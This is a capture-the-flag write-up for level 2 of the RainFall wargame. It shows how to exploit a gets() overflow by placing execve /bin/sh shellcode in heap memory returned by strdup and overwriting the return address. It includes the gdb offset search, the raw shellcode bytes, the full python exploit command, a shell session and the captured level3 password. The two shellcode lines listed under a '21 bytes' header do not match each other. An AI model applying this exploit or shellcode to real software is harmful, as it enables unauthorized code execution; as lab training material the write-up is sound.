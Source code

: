 📘 Buffer Overflow Exploit: Level 2
This level is a classic heap-based buffer overflow challenge — unlike Level 1, the program prevents us from returning to addresses on the stack. Instead, we need to use the heap for our shellcode execution.

⚠️ Vulnerability Summary
The program uses the unsafe gets() function, which does not check input size.

The input is copied into a buffer on the stack, but a check prevents the return address from pointing to the stack (addresses starting with 0xb).

However, the input is later duplicated with strdup(), which allocates memory on the heap.

This means the shellcode can be stored in the heap, and the return address overwritten to point there — bypassing the stack restriction.

🧠 Our Goal
We want to:
1.Write shellcode as input (stored in the heap by strdup()).
2.Overwrite the saved return address on the stack to point to the heap address returned by malloc.
3.When the function returns, it jumps to our shellcode in the heap, giving us a shell.

🔎 Understanding the Program Behavior
Using ltrace, the heap address returned by strdup() is always 0x0804a008.

The vulnerable function calls gets() to read input, then strdup() to duplicate it.

We want the return address to be 0x0804a008 so it jumps to our shellcode in the heap.

🛠 Finding the Offset to EIP (Return Address)
Using gdb and a pattern of known characters:

```
level2@RainFall:~$ gdb level2
(gdb) run
Starting program: ./level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
"6A7c"
(gdb) info register eip
eip            0x37634136       0x37634136
The pattern shows the return address is overwritten starting at offset 80 bytes.

So we need to fill 80 bytes before the return address.

💡 Crafting the Payload
Our payload layout:

Part	Size (bytes)	Description
Shellcode	21	The actual shellcode (execve("/bin/sh"))
Padding ("A")	59	Filler bytes to reach the return address
Return Address	4	Overwrite with 0x0804a008 (heap shellcode addr)

Shellcode (21 bytes):
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
https://shell-storm.org/shellcode/files/shellcode-752.html

Final Exploit Command
python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit

cat /tmp/exploit - | ./level2
✅ What Happens?
The shellcode is stored in the heap at 0x0804a008.

The return address is overwritten to jump there.

When the function returns, execution jumps to our shellcode in the heap.

We get a shell as user level3.

From there, we can read the next password file.

Example session:
bash
Copier
Modifier
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
Summary
The program disallows returning to stack addresses to prevent stack shellcode.

We used the heap allocation from strdup() to store shellcode.

We overwrote the return address with the heap address to gain control.

Successfully escalated to level3.